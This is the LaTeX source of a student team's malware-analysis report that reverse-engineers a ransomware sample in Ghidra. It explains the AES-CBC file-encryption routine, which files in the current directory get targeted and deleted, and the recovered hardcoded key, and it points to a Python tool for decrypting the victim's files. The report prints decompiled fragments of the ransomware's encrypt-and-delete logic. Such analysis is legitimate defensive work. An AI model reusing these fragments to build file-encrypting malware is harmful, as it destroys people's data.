
\documentclass[11pt]{article}

\usepackage{a4wide}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hyperref}

\setlength{\parindent}{0pt}
\setlength{\parskip}{5pt}  % 设定段落间距为 10pt

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstset{
    basicstyle=\ttfamily,      % 设置基本字体
    breaklines=true,           % 自动换行
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
}

\begin{document}

\title{\textbf{Assignment3 Team6 Report}}
\author{Jiayang Xu, Zhengyang Cheng, Haohan Fu, Xibin Yu, Xi Wang and Haoyu Ju}
\date{26, March, 2025}
\maketitle

\section{Analyze the malware's code}
\subsection{Start}
We used Ghidra to analyze the malware code. All C-style decompiled codes mentioned below can be found in Appendix \ref{C-style decompiled codes}. 

We found it difficult to find the code that implements the encryption directly from the entry point, so we started to search defined strings in the program. Then we found the AES encryption function \textbf{AES\_Encrypt\_140007080()}, whose function call tree is shown in \\Figure \ref{Call Trees}. For ease of analysis, we have changed some names in the code and added comments to important parts. 

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.6\textwidth]{img/Call Trees.png}
    \caption{Function call trees}
    \label{Call Trees}
\end{figure}

\subsection{The AES encryption function in ransomware}
The function \textbf{AES\_Encrypt\_140007080()} is an AES encryption function, which is the core function of the ransomware.

We analyzed its implementation. The function has two parameters: the path to read the file 'input\_path' and the path to write the file 'output\_path':

\begin{lstlisting}[language=c++]
void AES_Encrypt_140007080(LPCWSTR input_path,LPCWSTR output_path)
\end{lstlisting}

It calls some Win32 API functions to read, encrypt and write the target files. It loops through the following steps until all the bytes of the file have been read.

\begin{itemize}
  \item Open the input file and create the output file by calling \textbf{CreateFileW()}.
  \begin{lstlisting}[language=c++]
    HANDLE local_f8;
    HANDLE hFile;
    local_f8 = CreateFileW(input_path,1,1,(LPSECURITY_ATTRIBUTES)0x0,3,0x80,(HANDLE)0x0);
    hFile = CreateFileW(output_path,2,1,(LPSECURITY_ATTRIBUTES)0x0,4,0x80(HANDLE)0x0);\end{lstlisting}
  
  \item Write 16-byte IV to the output file. 'IV\_140086010'is a pointer to the memory address of the IV.
  \begin{lstlisting}[language=c++]
    BOOL BVar2;
    uint lpByteNum [2];
    BVar2 = WriteFile(hFile,IV_140086010,0x10,lpByteNum,(LPOVERLAPPED)0x0)\end{lstlisting}

  \item Read 1008 (0x3f0) bytes sequentially from the input file into the buffer, and write the actual number of bytes read to the output file. In general, the actual number of bytes read (i.e. the size of unencrypted block) is 1008 except for the last one, which may be less than 1008.
  \begin{lstlisting}[language=c++]
    undefined8 *buffer;
    HANDLE local_f8;
    uint *local_f0;
    buffer = (undefined8 *)_malloc_base(0x3f0);
    BVar2 = ReadFile(local_f8,buffer,0x3f0,lpByteNum,(LPOVERLAPPED)0x0);
    *local_f0 = lpByteNum[0];
    BVar2 = WriteFile(hFile,local_f0,4,lpByteNum,(LPOVERLAPPED)0x0);\end{lstlisting}

  \item Encrypt the buffer with the IV and the key by calling \textbf{StartEncryption\_140008450()}. \\'0x140086000' is the memory address of the 16-byte key.
  \begin{lstlisting}[language=c++]
    undefined keyScheduleWithIV  [192];             /* Address of the key*/
    InitEncryption_140008790((longlong)keyScheduleWithIV,0x140086000,(undefined8 *)IV_140086010);
    StartEncryption_140008450((longlong)keyScheduleWithIV,buffer,0x3f0);\end{lstlisting}

    Then we took a screenshot of the key in Ghidra, as shown in Figure \ref{fig:key}.

The key is '\textbf{8d02e65e508308dd743f0dd4d31e484d}'.
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.6\textwidth]{img/key.png}
    \caption{the AES key in Ghidra}
    \label{fig:key}
\end{figure}

  \item Write encryted buffer to the output file.
  \begin{lstlisting}[language=c++]
    BVar2 = WriteFile(hFile,buffer,0x3f0,lpByteNum,(LPOVERLAPPED)0x0);\end{lstlisting}
\end{itemize}

Figure \ref{encrypted_example} proves that we are right. The encrypted file consists of many similar parts ( \lstinline|IV[16] + sizeOfBlock[4] + block[1008]|).

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.6\textwidth]{img/encrypted_example.png}
  \caption{Part of an encrypted file}
  \label{encrypted_example}
\end{figure}

From the above analysis, we were still not sure about wether the encryption algorithm is AES-CBC-128-NoPadding or not. Next let's identify the encryption algorithm. 

As shown in Listing \ref{InitEncryption_140008790}, the first parameter is composed of \lstinline|key[16] + subkey[160] + IV[16]| (it's no need to analyze the KeyExpansion funtion). So we renamed it to 'keyScheduleWithIV'.
\begin{lstlisting}[language=c++, caption=InitEncryption\_140008790, label=InitEncryption_140008790]
void InitEncryption_140008790(longlong keyScheduleWithIV,longlong key_addr,undefined8 *IV_address)
{
  KeyExpansion_140009f80(keyScheduleWithIV,key_addr);
  copy_14000c700((undefined8 *)(keyScheduleWithIV + 0xb0),IV_address,0x10);
  return;
}
\end{lstlisting}

In Listing \ref{StartEncryption_140008450} we observed that the \textbf{PlaintextXorIV\_14000acb0()} function indicates the plaintext xor the IV, proving it's a CBC mode. The \textbf{AESOperation\_1400088d0()} function implements the AES encryption operations: XorRoundkey, SubBytes, ShiftRows and MixColomns.

\begin{lstlisting}[language=c++, caption=Part of StartEncryption\_140008450, label=StartEncryption_140008450]
void StartEncryption_140008450(longlong keyScheduleWithIV,undefined8 *buffer,uint size)
{
  /*...*/
  for (i = 0; i < size; i = i + 0x10) {
  PlaintextXorIV_14000acb0((longlong)plaintext,(longlong)IV);
  AESOperation_1400088d0((longlong)plaintext,keyScheduleWithIV);
  IV = plaintext;
  plaintext = plaintext + 2;
}
  /*...*/
}
\end{lstlisting}

To Summarise, we found that the ransomware uses \textbf{AES-CBC-128-NoPadding} encryption algorithm to encrypt files.

Note that the decrypted file is not the original file. This is because when encrypting a file, the last encrypted buffer has residual data that has not been overwritten. Therefore, it's necessary to remove the residual data of the decrypted file when decrypting.

\section{Determine what files/directories are targeted}
\subsection{Determine what files are targeted}
The function \textbf{EncryptAndRenameFiles\_140007590()}, which calls \textbf{AES\_Encrypt\_\\140007080()}, allows us to identify which files are targeted by ransomware. This function needs to be passed into a directory path pointer.
\begin{lstlisting}[language=c++]
void EncryptAndRenameFiles_140007590(short *dir)
\end{lstlisting}

Then the function defines a loop. In this loop, all the files in the 'dir' path will be found by calling \textbf{FindFirstFileW()}. 264 (0x104) is the maximum length of the path string: \lstinline|MAX_PATH = 0x104|.
\begin{lstlisting}[language=c++]
  BOOL BVar3;
  do{ /*...*/
      WCHAR local_e88[264];
      ConcatWPath_140007b20(dir, 0x104, (short *)"\\");
      CopyWPath_140007bc0(local_e88, 0x104, dir);
      ConcatWPath_140007b20(local_e88, 0x104, (short *)"*");
      local_1110 = FindFirstFileW(local_e88, &local_10e8);
      /*...*/
      BVar3 = FindNextFileW(local_1110, &local_10e8);
    } while (BVar3 != 0);
\end{lstlisting}

The loop executes the following code:
\begin{itemize}
  \item Exclude directories by determining the file attributes (0x10 for directory).
  \begin{lstlisting}[language=c++]
    if ((local_10e8.dwFileAttributes & 0x10) == 0){/*...*/}
\end{lstlisting}

  \item Compare the first three characters (6 bytes) of the filename with the string '~en', and then exclude the file if they are same.
  \begin{lstlisting}[language=c++]
    wchar_t local_e98[8];
    copy_14000c700((undefined8 *)local_e98, (undefined8 *)local_10e8.cFileName, 6);
    iVar2 = wcscmp(local_e98, L"~en");
    if (iVar2 != 0){/*...*/}
\end{lstlisting}

  \item Retrieve the path of the executable file of the current process by calling \textbf{GetModuleFileNameW()}, and then exclude this file (i.e. ransomware) .
  \begin{lstlisting}[language=c++]
    WCHAR local_858[264];
    GetModuleFileNameW((HMODULE)0x0, local_858, 0x104);
    _Str2 = PathFindFileNameW(local_858);
    iVar2 = wcscmp(local_10e8.cFileName, _Str2);
    if (iVar2 != 0){/*...*/}
\end{lstlisting}

  \item Encrypt the original file by calling \textbf{AES\_Encrypt\_140007080()}. \\Prefix the filename of encrypted file with '~en' (e.g. 'sample.md' to '~ensample.md'). \\Delete the original file by calling \textbf{DeleteFileW()}.
  \begin{lstlisting}[language=c++]
    CopyWPath_140007bc0(local_648, 0x104, dir);
    output_addr = local_648;
    ConcatWPath_140007b20(output_addr,0x104,L"~en");
    ConcatWPath_140007b20(output_addr, 0x104, local_10e8.cFileName);
    AES_Encrypt_140007080(input_addr, output_addr);
    DeleteFileW(input_addr);
\end{lstlisting}
\end{itemize}

After the above loop is completed, the second loop renames all the encrypted file to the original filenames by calling the \textbf{MoveFileW()} function (e.g. '~ensample.md' to 'sample.md').
  \begin{lstlisting}[language=c++]
    MoveFileW(local_10f0, local_10f8);
\end{lstlisting}

In summary, for a given directory 'dir', the ransomware does \textbf{NOT} target: subdirectories and files in them, encrypted files and the ransomware itself. However, there is one exception. If a file's original filename is prefixed with '~en', it will not be encrypted, but the file will lose its prefix '~en' after the ransomware runs.

But what is `the given directory`? Let's next locate it.

\subsection{Determine what directory is targeted}
The function \textbf{RansomwareProcessor\_140008240()} get the current directory by calling the function \textbf{GetCurrentDirectoryW()}, and passes it as a parameter to \textbf{EncryptAndRenameFiles\_140007590()}. Thus, the ransomware only targets the current directory.
\begin{lstlisting}[language=c++, caption=Part of RansomwareProcessor\_140008240]
void RansomwareProcessor_140008240(void)
{
    /*...*/
    WCHAR dir[264];
    printf((char *)L"Getting current directory. ");
    GetCurrentDirectoryW(0x104, dir);
    EncryptAndRenameFiles_140007590(dir);
    Sleep(10000);
    /*...*/
}
\end{lstlisting}

In conclusion, the ransomware targets: \textbf{all the files (not the subdirectories and files in them) in the current directory, except the ransomware itself and all files prefixed with '~en'.}

\section{Decrypt Hank's files.}
The tool to decrypt Hank's files is \textbf{'assinment3-team6-data/AES\_decrypt.py'}.

% This program has two important functions, which are explained in detail below.

% \subsection{Decrypt the blocks}
% //Only keep the actual plaintext length portion, the rest is meaningless padding used during encryption.

% \begin{lstlisting}[language=python, caption=decrypt\_block]
% def decrypt_block(ciphertext_block, key, iv, actual_plaintext_len):
%     cipher = AES.new(key, AES.MODE_CBC, iv)
%     decrypted_block = cipher.decrypt(ciphertext_block)
%     return decrypted_block[:actual_plaintext_len]
% \end{lstlisting}

% \subsection{Decrypt the files}

% \begin{lstlisting}[language=python, caption=decrypt\_file]
% def decrypt_file(input_path, output_path, key_hex):
%     #...
%     with open(input_path, 'rb') as f_in, open(output_path, 'wb') as f_out:
%         while True:
%             # Read the 16-byte IV
%             iv = f_in.read(16)  #0a0b0c0d0e0fa0b0c0d0e0f0aabbccdd
%             #...
%             # Read the 4-byte actual plaintext length
%             block_len_bytes = f_in.read(4)
%             #...
%             actual_plaintext_len = struct.unpack('<I', block_len_bytes)[0]
%             # Read the encrypted 1008-byte block
%             ciphertext_block = f_in.read(BLOCK_SIZE)
%             #...
%             # AES Decrypt
%             plaintext_block = decrypt_block(ciphertext_block, key, iv, actual_plaintext_len)
%             f_out.write(plaintext_block)
%             #...
% \end{lstlisting}

To use this python tool, first install pycryptodome.
\begin{lstlisting}
pip3 install pycryptodome
\end{lstlisting}

Then replace the following line with YOUR directory of the files to be decrypted, and DO NOT add a '/' to the end of your directory.
\begin{lstlisting}[language=python]
FILE_DIRECTORY = "HanksBackup"
\end{lstlisting}

\newpage
\appendix
\section{Appendix}
\subsection{The Ghidra zip file}
The Ghidra project file is \textbf{'assinment3-team6-data/mYSCpPoHAih.gzf'}.

\subsection{The C-style decompiled codes} \label{C-style decompiled codes}
All the complete codes for the above C-style decompilations can be found in the directory \textbf{'assinment3-team6-data/C-style decompiled code'}.

In addition, there are some functions not mentioned above, but which are also valuable (because they are part of the function call tree), listed below:

\begin{itemize}
    \item \textbf{entry.c}: it calls the function \textbf{RansomwareEntryPoint\_14000afe0()}.
% \begin{lstlisting}[language=C++, caption=entry.c]
% void entry(void)
% {
%     __security_init_cookie();
%     RansomwareEntryPoint_14000afe0();
%     return;
% }
% \end{lstlisting}

    \item \textbf{RansomwareEntryPoint\_14000afe0.c}: it calls the function \textbf{RansomwareProcessor()} mentioned above.
% \begin{lstlisting}[language=C++, caption=Part of RansomwareEntryPoint\_14000afe0.c]
% ulonglong RansomwareEntryPoint_14000afe0(void)
% {
%     /*...*/
%             __scrt_get_show_window_mode();
%             _get_wide_winmain_command_line();
%             /*Ransomware Processor here*/
%             uVar3 = RansomwareProcessor();
%             uVar7 = __scrt_is_managed_app();
%     /*...*/
% }
% \end{lstlisting}

\end{itemize}

\subsection{The decrypted files}
All decrypted files can be found at: \url{https://github.com/Superior-Josh/FMPT-Assignment3/tree/main/HanksBackup_decrypted}

% \subsubsection{The screenshots of the output}
% The successful output of the decryption tool is shown in Figure \ref{fig:output}.
% \begin{figure}[htbp]
%     \centering
%     
\includegraphics[width=0.8\textwidth]{img/output.png}
%     \caption{Decryption tool output}
%     \label{fig:output}
% \end{figure}

% A decrypted example file (\textbf{SampleVideo\_1280\texttimes 720\_30mb.mp4}) is shown in Figure \ref{fig:decrypted_exapmle}.
% \begin{figure}[htbp]
%     \centering
%     
\includegraphics[width=0.8\textwidth]{img/decrypted_exapmle.png}
%     \caption{Decrypted file example}
%     \label{fig:decrypted_exapmle}
% \end{figure}

\section*{Academic Conduct \& Plagiarism:}
We take plagiarism seriously. By submitting your solution, you agree that:

1. The submission is your group's own work and that you have not worked with others in preparing this assignment.

2. Your submitted solutions and report were written by you and \textbf{in your own words}, except for any materials from published or other sources which are clearly indicated and acknowledged as such by appropriate referencing.

3. The work is not copied from any other person's work (published or unpublished), web site, book or other source, and has not previously been submitted for assessment either at the University of Birmingham or elsewhere.

4. You have not asked, or paid, others to prepare any part of this work.

\end{document}